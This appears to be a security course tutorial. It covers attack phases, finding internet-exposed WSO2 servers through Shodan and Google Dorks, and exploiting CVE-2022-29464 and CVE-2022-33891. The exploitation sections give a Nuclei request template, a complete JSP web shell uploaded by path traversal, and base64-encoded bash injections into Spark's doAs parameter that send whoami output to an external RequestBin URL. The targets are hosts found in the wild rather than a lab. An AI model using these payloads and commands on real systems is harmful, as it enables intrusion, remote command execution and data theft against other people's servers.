# Introduction

There are multiple stages of a cyber attack: many of them contains five common stages used by a hacker to break into a system and also control it.
In the last time, cyber-attacks on critical infrastructure are becoming more common, complex and creative.

## Phase one: Reconnaissance and Research

Also called the `footprinting` stage, this phase consists of the research made by the attacker to obtain as much information as possible about the target.
The main objective is to understand the technologies that the target is using, what types of mechanisms the target has in place, and also where the target is located.

### Passive Reconnaissance

This type of reconnaissance collects open source information without engaging the target directly.
Types of Information used:

+ Search Engine queries: Shodan, Google Dorks, Censys.io, PublicWWW, Zoomeye

+ Social Media: Twitter, Facebook and Linkedin (information about employees, their roles and daily habits)

+ WHOIS lookup: collect domain registration info and IP addresses

### Active Reconnaissance

This type of reconnaissance is used to collect information about the target network architecture, firewall, or intrusion detection software and is very useful to develop attack vectors and information about the operating system of the target or configurations.

Mainly, the tool used are:

+ [nmap](https://nmap.org) - reveal how data flows through the network by mapping the topology of the various hosts, servers, routers,

+ [gobuster](https://github.com/OJ/gobuster) - bruteforce URLs, DNS subdomains, virtual host names

+ [wfuzz](https://github.com/xmendez/wfuzz) - bruteforce Web Applications, used to find resources like directories, servlets, scripts.
It can also bruteforce GET and POST parameters for checking different kinds of injections (SQL, XSS, etc)

+ [openvas-scanner](https://github.com/greenbone/openvas-scanner) - vulnerability scanner

## Phase two: Weaponization

After the reconnaissance step, the attackers start to develop various techniques to penetrate the target defense: this includes phishing techniques, creating fake websites, developing software and hardware exploits, and creating or acquiring new malware.

## Phase three: Gaining Access

The gaining access step could include an employee who fell into a phishing attack or it could be the attack based on a new vulnerability that appeared and is unpatched.
Also, an attacker could find some access pages like a login page on a website and starts to brute force the credentials.
This phase includes the sending of a malicious payload to the application through the network trying to trigger the vulnerability using buffer overflows attacks, injection attacks abusing components with known vulnerabilities.

## Phase four: Maintaining access

This involves the processes used to ensure the attacker can access the application for future use.
Once an attacker has access to a system, his objectives are to escalate privileges and maintain the access.
The ability to run privileged commands allows attackers to maintain their presence using a variety of methods:

+ Creating new user accounts

+ Editing firewall settings

+ Turning on remote desktop access (RDP)

+ Installing a backdoor via [rootkits](https://en.wikipedia.org/wiki/Rootkit)

## Phase five: Clearing Tracks

This includes the step of uninstalling the programs used during the attack and deleting any created folders, modifying the timestamps and deleting and modifying the logs files.
The attacker would change their MAC address and run the attacking machine through at least one VPN to help cover their identity.

# How to find targets in the wild
## Find targets using shodan.io
As presented to you in another session, **[shodan.io](https://www.shodan.io/dashboard)** is a powerful search engine that can help you to find vulnerable targets on the internet, using different search queries.
A search query can contain, for example, the name of the product like a simple ```weblogic``` which represents the name of the WebLogic server developed by Oracle.



But we can also use more specific queries to find targets that interest us. You can also specify the port numbers inside the shodan query, using the ```port:``` filter.
Knowing that [WSO2](https://wso2.com) the default HTTP and HTTPS ports of a WSO2 product are 9763 and 9443 respectively, we can try to use the ```WSO2 port:9443,9763``` query, you can find some [WSO2](https://wso2.com) targets across the internet.



Another way to find vulnerable targets is the **favicon hash**.
Favicon is the shortand for favourite icon. It is used as a shortcut to other webpages.
Browsers that use these icons usually display them in the address bar, as well as in the history.



You can find the favicon hash of an website, using the [FaviconHash website](https://faviconhash.com). For example, let's find out the favicon hash of the github.com website.



Now, we can use the ```http.favicon.hash:1848946384``` filter to find some GitHub based web-sites.



As you can see, we now have more than 700 results of potential vulnerable applications.
Note that in order to use Shodan filters (http.favicon.hash) you must be logged in.

## Find targets using Google Dorks

Google Dorks involves using advanced operators in the Google search engine to locate specific errors of text within search results.
Common cases of using Google Dorks are finding specific versions of vulnerable Web applications.
Taking the previous example, we want to find some vulnerable versions of the WSO2 product after the release of the [CVE-2022-29464](https://www.trendmicro.com/en_us/research/22/e/patch-your-wso2-cve-2022-29464-exploited-to-install-linux-compatible-cobalt-strike-beacons-other-malware.html) so we will use Google Dorks, knowing the vulnerable endpoints of the vulnerable product.

```
inurl:"/carbon/admin/login.jsp"
inurl:"/authenticationendpoint/login.do"
inurl:"devportal/apis"
intitle:"API Publisher- Login"
intitle:"WSO2 Management Console"
```



## Use automation to find vulnerable targets with Nuclei

[Nuclei](https://github.com/projectdiscovery/nuclei) is an important open-source tools used to find vulnerable targets, based on flexible templates written in yaml, which offers to scan for multiple protocols (HTTP, TCP, DNS, ...).

The templates can be found inside the [nuclei-templates](https://github.com/projectdiscovery/nuclei-templates/tree/master/cves) github page, sorted by the CVE release year.

### Download shodan findings

#### Manually download data

Taking the same previous CVE-2022-29464 as an example, we can use our shodan.io results to find if the targets found in the wild are vulnerable.

First we need to download the results of the [shodan search used for the WSO2 targets](https://www.shodan.io/search?query=WSO2+port%3A9443%2C9763): just press the Download Results button and wait for the ```.json.gz``` file to be downloaded then unzip it using ```gzip -d <finding>.json.gz```





Our main interests of the ```<finding>.json.gz``` are the IP:PORT fields of every resulted information of the target; so the first approach is to extract these two fields, using [jq](https://stedolan.github.io/jq/) Linux utility - a sed for JSON data.

Using the following command, we will have a list with an IP associated with a PORT.

```cat <extracted_finding>.json | jq -r '. | "\(.ip_str):\(.port)"' && sed -i -e 's/^/https:\/\//' targets.txt```

#### Download data using the API

Another approach is to use the shodan [API](https://help.shodan.io/guides/how-to-download-data-with-api), which helps you to download data.

You can use the following commands to download the data:

```
shodan init <API_KEY>
shodan count WSO2 port:9443,9763
shodan download targets.json.gz WSO2 port:9443,9763 [--limit 1000]
gzip -d targets.json.gz
shodan parse targets.json --fields=ip_str,port > targets.txt
```

### Get nuclei in action

Now, having the targets inside the ```targets.txt``` file, we can start using nuclei.

The first step is to install the tool from the [public github page](https://github.com/projectdiscovery/nuclei).

After the installation is completed, as we said, we will choose to scan targets vulnerable to the CVE-2022-29464, so we will download the specific [```CVE-2022-29464.yaml```](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2022/CVE-2022-29464.yaml) file.

```nuclei -t CVE-2022-29464.yaml -l targets.txt```

We can see that our target was found vulnerable by nuclei.



# CVEs exploitation

## CVE-2022-29464

We didn't talk at all about how this vulnerability works; the main idea is that the vulnerable WSO2 products allow unrestricted file upload which results in remote code execution.
This means that we can upload any file on the server.
The main approach to succeed the vulnerability inside the WSO2 is to do a POST request which tries to upload a [web shell file](https://www.upguard.com/blog/what-are-web-shell-attacks) in JSP format on the target system.

This web shell enables the target to be remotely accessed by the attacker, which can run commands on the system
After this POST request is made, another GET request to the web shell path endpoint to check if the vulnerability was successfully exploited.

```yaml
requests:
  - raw:
      - |
        POST /fileupload/toolsAny HTTP/1.1
        Host: {{Hostname}}
        Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311
        Content-Length: 348
        -----------------------------250033711231076532771336998311
        Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/{{to_lower("{{randstr}}")}}.jsp";filename="test.jsp"
        Content-Type: application/octet-stream
        <% out.print("WSO2-RCE-CVE-2022-29464"); %>
        -----------------------------250033711231076532771336998311--
      - |
        GET /authenticationendpoint/{{to_lower("{{randstr}}")}}.jsp HTTP/1.1
        Host: {{Hostname}}
```

We know that one of the vulnerable endpoint is the ```../../../../repository/deployment/server/webapps/authenticationendpoint/``` endpoint.
So, the main idea is to send a **POST** request containing a web shell, which let us to send commands on the system: to craft a request like the one inside the ```.yaml``` file we will use Burp Suite.

First, turn on the Intercept and catch a request to the ```/carbon``` endpoint, using the Chromium browser. Access the ```https://<IP>:9443/carbon``` from the Chromium Browser.





Now, send the caught request to Repeater, using the **Ctrl+R** keyboard shortcut; this allows us to modify the request, trying to replicate the request that will succeed to our exploitation.



As we said before, we can upload any file on the WSO2 server -- we want a file that can interpret commands: we will try to upload a web shell jsp file with the following content:

```jsp
<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr);
                disr = dis.readLine();
                }
        }
%>
</pre>
</BODY></HTML>
```

Let's modify the request and send a new request containing the web shell file having the name ```sss.jsp```.
This file will be uploaded at the ```/authenticationendpoint/sss.jsp``` endpoint.



Right now we have an uploaded file situated on the ```https://<IP>:9443/authenticationendpoint/sss.jsp```.
Accessing that web-page, we can see that we have a prompted form where we can insert commands.



## CVE-2022-33891

[Apache Spark](https://spark.apache.org) is an open-source, distributed processing system used for big data workloads and it utilizes in-memory caching, and optimized query execution for fast analytic queries.
Apache Spark also provides a suite of web user interfaces (UI) that you can use to monitor the status and resource consumption of your Spark cluster.

Past week, there was found a new vulnerability inside the Apache Spark Web UI component: a shell command injection vulnerability. This vulnerability affects the ```?doAs``` parameter, allowing an unauthenticated attacker to execute commands on the target system.
The command injection occurs because Spark checks the group membership of the user passed in the ```?doAs``` parameter by using a raw Linux command.

The payload is pretty simple, you need to specify a command to run between the '`' characters, using the ```doAs``` parameter.

```
curl -X "GET" http://<IP>:8080/?doAs=`<command_to_execute>`
```

The backtick is the start of an instruction to bash to evaluate what you type as a command. Everything you type between backticks (`) is evaluated  by the shell before the main command and the output of that execution is used by that command, just as if you'd type that output at that place in the command line.
So, the command between the backticks inside the URL will be firstly intepreted by our shell and then by the target shell.

To read the output of the command and to check if that command was executed on the vulnerable server, we will send a request to [RequestBin](https://requestbin.io).
[RequestBin](https://requestbin.io) gives you a URL that will collect requests made to it and let you inspect them in a human-friendly way.

You need just to create a subdomain by using the Create a RequestBin button:



Now you have an associated URL to your request bin and you can send requests to this URL getting all that information needed:

```
curl <REQUEST-BIN-URL>
```



To check if the server is vulnerable and the command was successfully executed, we would like the target server to communicate with our created logger: we will make the target to send a GET request to our REQUEST-BIN-URL.
We will introduce a curl command inside the backticks that we discussed before.

But first, we will encode it with base64 inside the URL and then execute it using bash command.

```
echo -n "curl <REQUEST-BIN-URL>" | base64
curl -X "GET" http://<IP>:8080/?doAs=`echo <base_64_string> | base64 -d | bash`
```



We can spot two GET requests as we have talked before: one request sent by our shell because of the backticks and another one interpreted by the target shell, meaning that the target is vulnerable.



But we will to extract some system information from the target, so we will try to execute a command and send it with curl. The ```-d``` parameter of curl will specify that we send a request with some data in it: that will be the output of the ```whoami``` command.

Because of the ```$(whoami)``` parameter that will be interpreted by bash, we can encode the string with base64 using python:

```python
python
import base64
base64.b64encode(b'curl -d $(whoami) <REQUEST-BIN-URL>')
```




```
curl -X "GET" http://<IP>:8080/?doAs=`echo <base_64_string> | base64 -d | bash`
```

We can see that we have got two GET requests in our Request Bin logger.
One of this contains the target username:

